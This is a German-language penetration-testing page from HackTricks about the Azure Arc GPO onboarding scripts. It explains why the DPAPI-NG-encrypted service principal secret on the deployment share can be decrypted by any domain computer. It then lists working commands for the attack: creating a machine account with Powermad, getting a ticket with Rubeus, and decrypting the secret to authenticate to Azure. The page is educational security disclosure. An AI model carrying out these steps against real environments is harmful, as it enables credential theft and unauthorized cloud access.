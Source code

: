 # Az - Arc verwundbares GPO Bereitstellungsskript

{{#include ../../../banners/hacktricks-training.md}}

### Identifizierung der Probleme

Azure Arc ermöglicht die Integration neuer interner Server (verbundene Domänenserver) in Azure Arc mithilfe der Group Policy Object-Methode. Um dies zu erleichtern, stellt Microsoft ein Bereitstellungstoolkit zur Verfügung, das für den Start des Onboarding-Verfahrens erforderlich ist. Im ArcEnableServerGroupPolicy.zip-Datei finden sich die folgenden Skripte: DeployGPO.ps1, EnableAzureArc.ps1 und AzureArcDeployment.psm1.

Beim Ausführen des DeployGPO.ps1-Skripts werden die folgenden Aktionen ausgeführt:

1. Erstellt die Azure Arc Servers Onboarding GPO innerhalb der lokalen Domäne.
2. Kopiert das EnableAzureArc.ps1 Onboarding-Skript in den vorgesehenen Netzwerkfreigabe, die für den Onboarding-Prozess erstellt wurde und auch das Windows-Installationspaket enthält.

Beim Ausführen dieses Skripts müssen Systemadministratoren zwei Hauptparameter angeben: **ServicePrincipalId** und **ServicePrincipalClientSecret**. Darüber hinaus sind weitere Parameter wie die Domäne, der FQDN des Servers, der die Freigabe hostet, und der Freigabename erforderlich. Weitere Details wie die Mandanten-ID, die Ressourcengruppe und andere notwendige Informationen müssen ebenfalls dem Skript bereitgestellt werden.

Ein verschlüsseltes Geheimnis wird im AzureArcDeploy-Verzeichnis auf der angegebenen Freigabe unter Verwendung der DPAPI-NG-Verschlüsselung generiert. Das verschlüsselte Geheimnis wird in einer Datei mit dem Namen encryptedServicePrincipalSecret gespeichert. Ein Beweis dafür findet sich im DeployGPO.ps1-Skript, wo die Verschlüsselung durch den Aufruf von ProtectBase64 mit $descriptor und $ServicePrincipalSecret als Eingaben erfolgt. Der Descriptor besteht aus den SID der Domain Computer und der Domain Controller-Gruppe, wodurch sichergestellt wird, dass das ServicePrincipalSecret nur von den Sicherheitsgruppen der Domain Controllers und Domain Computers entschlüsselt werden kann, wie in den Kommentaren des Skripts vermerkt.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Wir haben die folgenden Bedingungen:

1. Wir haben erfolgreich das interne Netzwerk durchdrungen.
2. Wir haben die Fähigkeit, ein Computer-Konto innerhalb von Active Directory zu erstellen oder zu übernehmen.
3. Wir haben einen Netzwerkfreigabe entdeckt, die das AzureArcDeploy-Verzeichnis enthält.

Es gibt mehrere Methoden, um ein Maschinenkonto in einer AD-Umgebung zu erhalten. Eine der häufigsten ist die Ausnutzung des Maschinenkonto-Quotas. Eine andere Methode besteht darin, ein Maschinenkonto durch anfällige ACLs oder verschiedene andere Fehlkonfigurationen zu kompromittieren.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Sobald ein Maschinenkonto erlangt wurde, ist es möglich, sich mit diesem Konto zu authentifizieren. Wir können entweder den Befehl runas.exe mit dem netonly-Flag verwenden oder Pass-the-Ticket mit Rubeus.exe nutzen.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Indem wir das TGT für unser Computer-Konto im Speicher haben, können wir das folgende Skript verwenden, um das Geheimnis des Dienstprinzipals zu entschlüsseln.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativ können wir [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) verwenden.

An diesem Punkt können wir die verbleibenden Informationen sammeln, die benötigt werden, um eine Verbindung zu Azure herzustellen, aus der ArcInfo.json-Datei, die sich im selben Netzwerkfreigabe wie die encryptedServicePrincipalSecret-Datei befindet. Diese Datei enthält Details wie: TenantId, servicePrincipalClientId, ResourceGroup und mehr. Mit diesen Informationen können wir Azure CLI verwenden, um uns als der kompromittierte Dienstprinzipal zu authentifizieren.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
